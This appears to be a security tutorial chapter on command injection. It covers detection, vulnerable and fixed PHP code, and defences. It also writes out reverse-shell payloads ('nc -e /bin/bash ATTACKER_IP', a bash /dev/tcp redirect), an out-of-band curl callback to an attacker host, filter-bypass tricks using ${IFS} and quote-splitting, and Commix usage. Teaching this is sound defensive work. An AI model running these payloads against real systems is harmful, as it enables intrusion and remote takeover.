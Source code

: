 # 17 - Command Injection

## Introduction
- Command Injection is a vulnerability that lets attackers execute arbitrary OS commands via an application that incorrectly forwards untrusted input to a shell or command API. Exploits can lead to remote code execution, data theft, privilege escalation or denial-of-service.

## How it works (summary)
- Attacker finds a user-controllable input used in a system command (form field, URL parameter, header).
- They inject a crafted payload (command separators, subshells, backticks) so the application runs the attacker's commands.
- Outcomes: immediate output (result-based), inferred execution (blind), or external callbacks (OOB).

## Effects
- Remote code execution / shell access.
- Privilege escalation (if service runs with high privileges).
- Data exfiltration (files, credentials), system disruption, persistence.

## Key concepts
- Shell: command interpreter used by the OS (bash, sh, powershell, cmd.exe).
- Bind shell: target listens and attacker connects.
- Reverse shell: target connects back to attacker (common in exploitation).
- Payload: malicious command(s) run on the OS.
- Input validation/sanitization, whitelisting vs. blacklisting, sandboxing and escapeshellarg() are defensive concepts.

## Shell basics & common commands
- Linux examples: whoami, hostname, id, uname, ls, pwd, cat, find, grep, curl, wget, chmod, chown, nc, bash, sleep.
- Windows examples: whoami, hostname, ipconfig, dir, type, net user, systeminfo, powershell.

## Shell operators (common separators & control)
- `;` — sequential commands
- `&&` — run second if first succeeds
- `||` — run second if first fails
- `|` — pipe output to another command
- `>`, `>>` — redirect output
- `` ` ``, `$()` — command substitution
- `&` — background execution

## Result-based vs Blind Command Injection
- Result-based: attacker sees output in response (easier to confirm / exploit).
- Blind: output not returned; attacker infers execution via timing (sleep) or side-effects (DNS/HTTP callback).

## Detection examples (from source)
- Example: vulnerable DNS lookup using `nslookup $user_input`. Payloads: `; whoami`, `| whoami`, `&& whoami` confirm execution by observing returned output.
- Blind detection: inject `; sleep 10` into a header (e.g., User-Agent). If response is delayed ~10s, injection is confirmed.

## Vulnerable code patterns & secure fixes (PHP examples)
- Vulnerable:
```php
if (isset($_POST['query'])) {
	$query = $_POST['query'];
	$command = "nslookup $query"; // vulnerable
	exec($command, $output);
	// output rendered directly
}
```

- Safer (use argument escaping):
```php
if (isset($_POST['query'])) {
	$query = $_POST['query'];
	$safe_query = escapeshellarg($query);
	$command = "nslookup $safe_query";
	exec($command, $output);
}
```

- When possible avoid calling the shell entirely: use native library APIs instead of `exec`/`shell_exec`.

## Blind Command Injection techniques
- Time-based: `; sleep 10` or platform equivalent — detect via response delay.
- OOB detection: cause the target to make DNS/HTTP requests to attacker-controlled host (e.g., `; curl http://attacker/`), then monitor the listener.

## Reverse shells (overview)
- Reverse shell: target runs a command to connect back to attacker listener (common payloads shown in source). Example using netcat:
	- Listener: `nc -lvp 4444`
	- Payload: `; nc -e /bin/bash ATTACKER_IP 4444`
- Alternative payloads: bash TCP redirect (`bash -i >& /dev/tcp/IP/PORT 0>&1`), Python, PHP, Perl, Ruby, PowerShell variations (source includes examples). Replace IP/PORT with your listener.
- Ethical note: only test in authorized environments.

## Generating reverse shells
- Use payload generators (e.g., revshells) or templates; always adapt to available interpreters on target (nc, bash, python, php).

## Bypass techniques (summary from source)
1. Removing or replacing spaces: use `${IFS}` or other env separators: `ls${IFS}/etc/passwd`.
2. Breaking keywords with quotes or concatenation: `w'h'o'am'i` or `w"h"o"am"i`.
3. Subshells/backticks: ``who`echo am`i`` or `who$(echo am)i`.
4. Using alternative separators or chaining operators if spaces are filtered (`;`, `&&`, `||`, `|`).

## Tools for scanning/exploitation
- Commix — automated command-injection discovery & exploitation tool (https://github.com/commixproject/commix). Features: classic/blind/OOB, tampering, payload encoding.
- Basic Commix usage: `git clone https://github.com/commixproject/commix.git && python commix.py --url="http://target"` (see tool docs).

## Defensive recommendations
- Avoid launching shells with user input. Use native APIs or libraries instead.
- Use strong input validation and prefer whitelisting (allowed patterns) over blacklisting.
- Escape shell arguments reliably (e.g., `escapeshellarg()` in PHP) when shelling is unavoidable.
- Run services with least privilege and use sandboxing or containerization to reduce blast radius.
- Log and monitor abnormal system calls, outbound requests and unusual response-time patterns.
- Restrict available binaries and disable common network tools where not needed (nc, wget, curl), when feasible.

#
